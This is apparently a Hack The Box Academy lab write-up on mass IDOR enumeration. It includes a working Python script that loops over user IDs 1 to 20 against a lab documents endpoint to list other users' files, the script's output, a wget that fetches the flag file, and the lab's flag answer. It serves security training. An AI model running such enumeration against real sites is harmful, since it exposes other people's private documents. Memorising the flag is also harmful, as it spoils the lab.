

# Section 08: Mass IDOR Emuneration

Module: 23. Web Attacks

---

## Questions & Answers

### 1. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

Context:
- Intercept the request when clicking `Documents` on the page got:

- Got a POST request, build a Python script to fetching documents of 20 first uids:
```python
# Code is created by Claude
import requests
from bs4 import BeautifulSoup

TARGET_URL = "http://154.57.164.82:31869/documents.php"

headers = {
    "Cache-Control": "max-age=0",
    "Accept-Language": "en-US,en;q=0.9",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36",
    "Origin": "http://154.57.164.82:31869",
    "Content-Type": "application/x-www-form-urlencoded",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://154.57.164.82:31869/",
    "Connection": "keep-alive",
}

for i in range(1, 21):
    res = requests.post(TARGET_URL, headers=headers, data={"uid": i})

    if res.status_code != 200:
        print(f"[uid={i}] HTTP {res.status_code}, skipping")
        continue

    soup = BeautifulSoup(res.text, "html.parser")
    links = soup.select("ul.pure-tree a[href]")

    if not links:
        print(f"[uid={i}] no documents found")
        continue

    for a in links:
        print(f"[uid={i}] {a['href']}  ({a.get_text(strip=True)})")
```
- Result:
```bash
┌─[eu-academy-2]─[10.10.14.37]─[htb-ac-2162140@htb-qgboafovvz-htb-cloud-com]─[~]
└──╼ [★]$ python3 ./emunerating.py 
[uid=1] /documents/Invoice_1_09_2021.pdf  (Invoice)
[uid=1] /documents/Report_1_10_2021.pdf  (Report)
[uid=2] /documents/Invoice_2_08_2020.pdf  (Invoice)
[uid=2] /documents/Report_2_12_2020.pdf  (Report)
[uid=3] /documents/Invoice_3_06_2020.pdf  (Invoice)
[uid=3] /documents/Report_3_01_2020.pdf  (Report)
[uid=4] /documents/Invoice_4_07_2021.pdf  (Invoice)
[uid=4] /documents/Report_4_11_2020.pdf  (Report)
[uid=5] /documents/Invoice_5_06_2020.pdf  (Invoice)
[uid=5] /documents/Report_5_11_2021.pdf  (Report)
[uid=6] /documents/Invoice_6_09_2019.pdf  (Invoice)
[uid=6] /documents/Report_6_09_2020.pdf  (Report)
[uid=7] /documents/Invoice_7_11_2021.pdf  (Invoice)
[uid=7] /documents/Report_7_01_2020.pdf  (Report)
[uid=8] /documents/Invoice_8_06_2020.pdf  (Invoice)
[uid=8] /documents/Report_8_12_2020.pdf  (Report)
[uid=9] /documents/Invoice_9_04_2019.pdf  (Invoice)
[uid=9] /documents/Report_9_05_2020.pdf  (Report)
[uid=10] /documents/Invoice_10_03_2020.pdf  (Invoice)
[uid=10] /documents/Report_10_05_2021.pdf  (Report)
[uid=11] /documents/Invoice_11_03_2021.pdf  (Invoice)
[uid=11] /documents/Report_11_04_2021.pdf  (Report)
[uid=12] /documents/Invoice_12_02_2020.pdf  (Invoice)
[uid=12] /documents/Report_12_04_2020.pdf  (Report)
[uid=13] /documents/Invoice_13_06_2020.pdf  (Invoice)
[uid=13] /documents/Report_13_01_2020.pdf  (Report)
[uid=14] /documents/Invoice_14_01_2021.pdf  (Invoice)
[uid=14] /documents/Report_14_01_2020.pdf  (Report)
[uid=15] /documents/Invoice_15_11_2020.pdf  (Invoice)
[uid=15] /documents/Report_15_01_2020.pdf  (Report)
[uid=15] /documents/flag_11dfa168ac8eb2958e38425728623c98.txt  (flag)
[uid=16] /documents/Invoice_16_12_2021.pdf  (Invoice)
[uid=16] /documents/Report_16_01_2021.pdf  (Report)
[uid=17] /documents/Invoice_17_11_2021.pdf  (Invoice)
[uid=17] /documents/Report_17_06_2021.pdf  (Report)
[uid=18] /documents/Invoice_18_12_2020.pdf  (Invoice)
[uid=18] /documents/Report_18_01_2020.pdf  (Report)
[uid=19] /documents/Invoice_19_06_2020.pdf  (Invoice)
[uid=19] /documents/Report_19_08_2020.pdf  (Report)
[uid=20] /documents/Invoice_20_06_2020.pdf  (Invoice)
[uid=20] /documents/Report_20_01_2021.pdf  (Report)
```
- Get the flag:
```bash
┌─[eu-academy-2]─[10.10.14.37]─[htb-ac-2162140@htb-qgboafovvz-htb-cloud-com]─[~]
└──╼ [★]$ wget http://154.57.164.82:31869/documents/flag_11dfa168ac8eb2958e38425728623c98.txt
--2026-09-14 10:31:47--  http://154.57.164.82:31869/documents/flag_11dfa168ac8eb2958e38425728623c98.txt
Connecting to 154.57.164.82:31869... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24 [text/plain]
Saving to: ‘flag_11dfa168ac8eb2958e38425728623c98.txt’

flag_11dfa168ac8eb2958e3842572862 100%[============================================================>]      24  --.-KB/s    in 0s      

2026-09-14 10:31:48 (4.63 MB/s) - ‘flag_11dfa168ac8eb2958e38425728623c98.txt’ saved [24/24]

┌─[eu-academy-2]─[10.10.14.37]─[htb-ac-2162140@htb-qgboafovvz-htb-cloud-com]─[~]
└──╼ [★]$ cat flag_11dfa168ac8eb2958e38425728623c98.txt 
HTB{4ll_f1l35_4r3_m1n3}
```

**Answer:** `HTB{4ll_f1l35_4r3_m1n3}`

---

[Back to Module Index](./README.md)
